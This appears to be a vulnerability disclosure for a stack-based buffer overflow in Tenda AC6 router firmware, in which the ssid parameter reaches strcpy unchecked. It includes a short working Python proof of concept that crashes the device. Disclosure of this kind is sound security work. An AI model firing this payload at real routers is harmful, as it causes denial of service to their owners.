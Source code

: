 # Tenda Router AC6 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC6_V15.03.05.16. (The latest version is [AC6_V15.03.05.19](https://www.tenda.com.cn/download/detail-2681.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AC6/205_1/vlun2.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
2023-2-15: Report to CVE
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
